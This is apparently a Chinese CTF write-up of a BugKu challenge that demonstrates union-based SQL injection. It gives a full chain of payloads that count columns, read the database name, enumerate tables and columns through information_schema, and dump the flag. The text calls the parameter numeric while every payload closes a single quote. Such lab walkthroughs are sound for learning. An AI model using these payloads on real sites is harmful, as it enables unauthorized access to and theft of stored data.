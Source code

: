### 联合注入

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/682ad94858cb8da5c8fbd7d7.jpg)

输入数值查询

![](https://pic1.imgdb.cn/item/682ad95c58cb8da5c8fbd7e2.jpg)

判断类型，加个单引号闭合没有回显

![](https://pic1.imgdb.cn/item/682ad9f158cb8da5c8fbd848.jpg)

再跟上永真条件加注释符测试得出类型是数字型

![](https://pic1.imgdb.cn/item/682ada0358cb8da5c8fbd849.jpg)

利用 `order by` 判断列数，这里试出为 4 列

```sql
1' order by 4 #
```

![](https://pic1.imgdb.cn/item/682adb3f58cb8da5c8fbd8e5.jpg)

接下来利用 `union` 构造查询语句

我们需要将 1 改为 -1 使其为假没有回显内容，则后台将返回第二个 `select` 语句的结果集

```sql
-1' union select 1,2,3,4 #
```

![](https://pic1.imgdb.cn/item/682adb8b58cb8da5c8fbd90f.jpg)

利用这个语句查询数据库名，使用函数 `database()`

```sql
-1' union select 1,2,3,database() #
```

![](https://pic1.imgdb.cn/item/682adbf258cb8da5c8fbd987.jpg)

有了库名接下来去查有哪些表

`information_schema.tables` 是一个特殊的数据库

它包含了所有其他数据库的元数据，如表结构、列信息、索引等

`table_schema` 则是数据库名，要考虑显示区域有限，使用 `group_concat()` 函数

它将所有表名合并成一个单一的字符串，每个表名之间用逗号分隔

```sql
-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf' #
```

![](https://pic1.imgdb.cn/item/682adc3358cb8da5c8fbd9c9.jpg)

有个 `fl4g` 的表，去查询列名

```sql
-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g' #
```

![](https://pic1.imgdb.cn/item/682adcca58cb8da5c8fbda2c.jpg)

最后查询我们想要的数据

```sql
-1' union select 1,2,3,group_concat(skctf_flag) from fl4g #
```

![](https://pic1.imgdb.cn/item/682ae15658cb8da5c8fbdd83.jpg)